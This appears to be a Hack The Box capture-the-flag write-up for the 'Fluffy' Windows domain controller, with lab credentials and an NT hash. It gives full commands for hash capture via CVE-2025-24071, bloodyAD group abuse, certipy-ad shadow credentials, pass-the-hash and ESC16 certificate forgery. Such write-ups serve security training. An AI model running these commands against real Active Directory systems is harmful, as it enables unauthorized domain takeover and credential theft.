---
title: 'HTB-Fluffy'
published: 2025-09-18
draft: false
toc: true
---
**Start 18:20 26-06-2025**

---
```
Scope:
10.10.11.69

Creds:
j.fleischman / J0elTHEM4n1990!
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn fluffy.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-06-26 23:24:11Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-26T23:25:40+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-26T23:25:40+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49689/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack Microsoft Windows RPC
49707/tcp open  msrpc         syn-ack Microsoft Windows RPC
49724/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## BloodHound

I'll start off by enumerating everything using `bloodhound-ce-python`, this way the whole db can populate while I'm doing the rest of enumeration.





## 445/TCP - SMB




I went on and downloaded everything:



First I checked out the `.pdf` file.



Here we get an overview of all the recently found vulnerabilities, if we're lucky these are not patched and we could still exploit them:



I started enumerating them from top to bottom and found that the second one in the list could be the one I'm looking for:





Since this is exactly the premise that we're in with the found `.zip` file we can get to cookin:


I found a non-bloated version of the PoC [here](https://github.com/0x6rss/CVE-2025-24071_PoC/blob/main/poc.py):



I downloaded it and started exploiting:

### PoC





We can now upload it and catch the response with `responder` when we have uploaded it to the `smb` share:









```
p.agila
prometheusx-303
```

### Adding p.agila to SERVICE ACCOUNTS

Back in `BloodHound` I found the following for this user:



But most importantly:



And here we find out that we can add ourselves to the **Service Accounts** group. I will do this using `bloodyAD`:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' --dc-ip 10.10.11.69 add groupMember 'SERVICE ACCOUNTS' p.agila
```



### Shadow Credentials Attack

As per `BloodHound` I will now have to do the following:





Instead of `pywhisker.py` however I used `certipy-ad` for all three users in order to get all 3 hashes right away so I could log in with them later:

```bash
# Just change the account names in --account
certipy-ad shadow auto -u "p.agila@fluffy.htb" -p "prometheusx-303" -account 'WINRM_SVC'  -dc-ip '10.10.11.69'
```




Neither could be cracked so *pass-the-hash* it is:



# Foothold
## evil-winrm



### user.txt

Here I found the `user.txt` flag:



## Enumeration

But other than that pretty useless:



>[!caution]
>Problem was however that none of the other accounts could log in via `winrm`, so I had to think of something else.

We do find the following juicy stuff:



*CA_SVC* is a certificate service account, let's see what we can do with it:

```bash
certipy-ad find -u 'CA_SVC@fluffy.htb' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8'  -stdout -vulnerable -dc-ip 10.10.11.69
```



It seems to be vulnerable to **ESC16**!

>[!note]
>[This blog post](https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6) goes in detail about exploiting this vulnerability.

## ESC16 Abuse
### Forging Administrator UPN

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -upn 'administrator' -user 'ca_svc' update -dc-ip 10.10.11.69
```



Now that that is done we can verify the change with the `read` command:



Good, onto the next part.

### Request Certificate as Administrator

```bash
certipy-ad shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303'  -account 'ca_svc' auto -dc-ip 10.10.11.69
```



Now that we have exported the `krb5` ticket we can request the certificate:

```bash
certipy-ad req -k -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User' 
```



Bingo.

# Privilege Escalation
## Restore CA_SVC account

We can now restore the account as follows:

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update -dc-ip 10.10.11.69
```



### Persistence

I can now go ahead and modify the *Administrator* password in order to gain a backdoor in the system:

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -dc-ip 10.10.11.69 -domain fluffy.htb -ldap-shell
```



>[!note]
>You can use the command without `-ldap-shell` and it will give you the NTLM hash instead:
>

## evil-winrm as Administrator



I am now successfully logged in as *Administrator*, let's get `root.txt`:

### root.txt





---

**Finished 21:19 26-06-2025**

[^Links]: [[Hack The Box]]

#kerberoasting #ShadowCredentialsAttack #ESC16 #BloodyAD #BloodHound #certipy-ad 
